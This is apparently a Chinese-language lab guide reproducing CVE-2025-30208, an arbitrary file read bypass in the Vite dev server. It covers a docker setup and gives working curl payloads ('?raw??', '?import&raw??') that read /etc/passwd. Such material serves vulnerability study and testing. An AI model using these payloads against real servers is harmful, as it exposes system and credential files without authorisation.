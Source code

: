 # Vite开发服务器任意文件读取漏洞绕过（CVE-2025-30208）

Vite是一个现代前端构建工具，为Web项目提供更快、更精简的开发体验。它主要由两部分组成：具有热模块替换（HMR）功能的开发服务器，以及使用Rollup打包代码的构建命令。

在Vite 6.2.3、6.1.2、6.0.12、5.4.15和4.5.10版本之前，用于限制访问Vite服务允许列表之外的文件的`server.fs.deny`功能可被绕过。通过在URL的`@fs`前缀后增加`?raw??`或`?import&raw??`，攻击者可以读取文件系统上的任意文件。

此漏洞发生的原因是，在请求处理过程中尾部分隔符（如`?`）在多个地方被移除，但在查询字符串正则表达式中没有考虑，导致安全检查被绕过。

这个漏洞是[CNVD-2022-44615](../CNVD-2022-44615/README.zh-cn.md)补丁的绕过。

参考链接：

- <https://github.com/vitejs/vite/security/advisories/GHSA-x574-m823-4x7w>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-30208>

## 环境搭建

执行以下命令启动Vite 6.2.2开发服务器：

```
docker compose up -d
```

服务器启动后，可以通过访问`http://your-ip:5173`来访问 Vite 开发服务器。

> 注意：旧版本Vite的开发服务器默认端口为3000，新版本默认端口为5173，请注意区分。

## 漏洞复现

尝试使用标准的`@fs`前缀访问`/etc/passwd`，测试正常访问是否会被限制：

![](1.png)

可见，当发送请求到`http://your-ip:5173/@fs/etc/passwd`时，你会收到403 Forbidden响应，因为这个路径在Vite服务的允许范围之外。

通过在URL后附加`?raw??`，你就可以绕过这个限制并获取文件内容：

```
curl "http://your-ip:5173/@fs/etc/passwd?raw??"
```

这个请求将会返回`/etc/passwd`文件的内容：

![](2.png)

除了上面的Payload，你也可以使用`?import&raw??`来达到相同的效果。

